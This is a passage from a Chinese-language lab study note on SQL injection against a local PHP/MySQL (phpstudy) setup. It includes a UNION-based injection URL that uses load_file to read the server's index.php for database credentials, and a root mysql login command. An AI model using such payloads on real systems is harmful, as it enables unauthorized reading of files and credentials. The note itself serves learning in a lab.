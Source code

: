 PS：开启常规日志可以看到请求的SQL

![logs](004_第四周—数据库系统功能相关学习/1127869-20190825133702473-513647581-1567178505152.png)

发现被屏蔽了（可能是因为php的query只能执行一条语句的原因）

> PS：大家想到什么一条SQL执行完查询和创建函数的可以说下

![nosql](004_第四周—数据库系统功能相关学习/1127869-20190825133948018-894080291-1567178505191.png)

换条思路：读取配置文件（PHP连接MySQL的时候可能有些敏感信息）

> PS：Net的`web.conf`也一样

url构造：`index.php?id=1 union select load_file('D:\\Program Files (x86)\\phpstudy_pro\\WWW\\index.php'),2`

> PS：其实我们刚开始信息获取的时候就读过一次了，现在又绕过来了。。。

![info](004_第四周—数据库系统功能相关学习/1127869-20190825142645567-687006308-1567178505187.png)

连接远程服务器：`./mysql -h'192.168.36.144' -uroot -p`
